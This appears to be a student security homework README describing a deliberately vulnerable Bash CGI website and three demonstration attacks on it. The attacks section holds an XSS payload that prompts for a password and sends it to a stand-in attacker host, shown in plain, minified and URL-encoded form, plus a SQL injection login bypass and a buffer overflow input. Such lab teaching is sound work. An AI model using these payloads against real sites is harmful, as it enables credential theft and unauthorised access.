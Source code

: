 # lingi2347-CSS-homework2
Homework 2

> Authors: Alexandre Hauet <alexandre.hauet@student.uclouvain.be> & Tanguy Vaessen <tanguy.vaessen@student.uclouvain.be>
> Group 27

# Introduction
We have built a super easy website from scratch based only on CGI scripts written in Bash.
To ease the development on mulitple platforms, we have worked with docker.

## Structure
We have 2 docker images:
  - The main one is called "my-apache2" and runs an Apache2 server with the vulnerable website
  - Thesecond one, called "my-postgresql", runs a PostgreSQL instance.

The file structure is the following:

    |-- build-and-run.bat         use this file on a Windows machine to launch the project
    |-- build-and-run.sh          use this file on a Unix machine to launch the project
    |-- Dockerfile                my-apache2 dockerfile
    |-- README.md                 this readme
    |-- attacks                   folder containing the attacks
    |   |-- overflow_bin          folder containing the C program vulnerable to bufferoverflow
    |   |   |-- root_access.c     C program vulnerable to bufferoverflow
    |   |-- SQL_injection.md      description of SQL injection attack
    |   |-- XSS-attack.md         description of XSS attack
    |-- cgi-scripts               folder containing the website built by CGI scripts written in Bash
    |   |-- login.cgi             main page of the website
    |   |-- root.cgi              admin page of the website
    |-- postgreSQL                folder containing "my-postgresql" docker
    |   |-- SQL_dump              folder containing SQL files used to populate the DB
    |   |   |-- _db_creation.sql  creates the database
    |   |   |-- user.sql          creates and populates the users table
    |   |-- Dockerfile            my-postgresql dockerfile
    |-- secu.com                  welcome folder of apache server
    |   |-- index.html            welcome page of apache server

## How to start
### With Docker
- Install docker
- Run `build-and-run` script
- Access http://locahost

### Without Docker
- Copy the content of *cgi-scripts* to */usr/lib/cgi-bin/*
- Make *login.cgi* and *root.cgi* executable
- Build *attacks/overflow_bin/root_access.c* with `gcc -fno-stack-protector root_access.c -o root_access`
- Copy the binary to */home/root_access*
- Access http://locahost

# Login page
Accessible at http://locahost/cgi-bin/login.cgi

Show a simple login form with username and password.
You can login with *username=oreo* and *password=wfZB5XrH*

When logged in, you will access your personal page showing the password in plain text.

# Admin page
Accessible at http://locahost/cgi-bin/root.cgi

It shows a simple password field. The password is *rootpassword*
When the password is valid, a list of all users and their passwords is shown.

# Attacks
##XSS injection
XSS is a injection of code inside the web site. A way to make this kind of attack is to do the injection by adding code to the url.

Here is the script we would like to execute on the victim's machine

    var p = prompt("Veuillez entrez a nouveau votre mot de passe");
    o = document.createElement('img');
    o.setAttribute('src', 'http://www.evil-attacker-website.com/password=' + p);
    document.body.appendChild(o);

This code will prompt for the user's password, create an image with the password in the URL and append it to the body, making the browser send a request to our malicious server that will log the password.

## Minified version

    var p=prompt("Veuillez entrez a nouveau votre mot de passe");o=document.createElement('img');o.setAttribute('src','http://www.evil-attacker-website.com/password='+p);document.body.appendChild(o)

## URL to attack, only work in Firefox:
Send this URL to a victim to start the attack.
This not a permanent XSS attack.
http://localhost/cgi-bin/login.cgi?username=%3Cscript%3Evar%20stolenPassword%20=%20prompt(%22Veuillez%20entrez%20%C3%A0%20nouveau%20votre%20mot%20de%20passe%22);o%20=%20document.createElement(%27img%27);o.setAttribute(%27src%27,%20%27http://www.evil-attacker-website.com/password=%27%20+%20stolenPassword);document.body.appendChild(o);%3C/script%3E&password=foobar


##SQL injection
An SQL injection is possible on the Login page.
On field *username*, close a single quote and add "--" to comment the rest of the SQL query. Doing so, no password will be verified.

Example: `Username: oreo'--`

Others SQL attacks are possible.

## Buffer overflow
The script *root_access* take an argument, copy it into a buffer of 15 bytes and compare its value. If content is *rootpassword*, the variable *password_correct* is set to 1.
With a buffer overflow, we can write the value of *password_correct* and make the script always print *true*.

On the Admin page, enter *hhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh* to perform the buffer overflow

The attack works as soon as the input field is more than 28 chars.
The attack works until 40 chars. 40 chars or more cause a segmentation fault.
